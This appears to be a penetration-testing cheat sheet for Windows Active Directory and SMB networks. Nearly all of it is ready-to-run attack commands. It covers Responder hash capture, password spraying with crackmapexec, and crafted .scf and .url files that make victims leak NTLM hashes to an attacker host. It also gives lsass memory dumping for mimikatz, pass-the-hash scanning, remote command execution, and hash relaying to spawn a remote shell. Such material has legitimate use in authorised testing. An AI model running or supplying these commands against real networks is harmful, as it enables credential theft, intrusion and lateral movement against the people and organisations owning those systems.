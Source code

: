 ## Getting Creds
* `responder -I eth0 -wrf` _Start responder on eth0. Listen for netbios, and wpad_
* `crackmapexec smb {ip} -u {users.txt} -p {password}` _spray all user accounts in users.txt with a single popular password_

```
[Shell]
Command=1
IconFile=\\{attacker ip}\whatever.ico
[Taskbar]
Command=ToggleDesktop
```
_Example index.scf file that can force any machine that views a share to send hash to attackers responder_

```
[InternetShortcut]
URL=file://{attacker ip}/@whatever
```
_Example .url file that when clicked will send hash to attackers responder_

* `smbclient \\\\{ip}\\{share name} -U {domain}/{user}` _connect to smb share with valid creds_
* `put /{path}/index.scf ./index.scf` _upload malicous scf file to root of connected smb share_
* [kerberoast](https://room362.com/post/2016/kerberoast-pt1/) _stealing crackable tickets from AD using kerberoasting. htb machine [Active](https://0xrick.github.io/hack-the-box/active/) is an example of this_
* `rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump “<lsass pid> lsass.dmp full”` _Dump the lsass process to a file so it can be transfered to attacked for mimikatz.  Useful after forcing clear text lsass creds.  See tutorial page_

## Enumeration
* `crackmapexec smb {ip range} -u {username} -p {password}` _scan an ip or range with valid creds to see where it's an admin or at least a valid user_
* `crackmapexec smb {ip range} -u {username} -p {password} --shares` _enumerate shares that user hass access to_
* `/usr/share/responder/tools/RunFinger.py -i {ip/mask}` _scan for machines with smb signing off so hashes can be passed instead of cracked_
* `crackmapexec smb {ip range} -u {username} -H {hash} --local-auth` _Check an ip range for access using a local admin account and its uncracked hash.  SMB singing must be disabled on the target_
* [bloodhound](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/) _Use to map a path to domain admin.  [unofficial docker image](https://github.com/belane/docker-bloodhound)_

## Remote Commands
* `crackmapexec smb {ip range} -u {username} -p {password} -x {cmd}`  _run command on remote machine using valid creds_
* `/usr/share/responder/tools/MultiRelay.py -t {ip} -u ALL` _Responder must be running with smb and http off.  This will listen for admin hashes and try to relay them to the specified ip to spawn a remote shell.  SMB signing must be disabled on the target [some instructions here](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)_
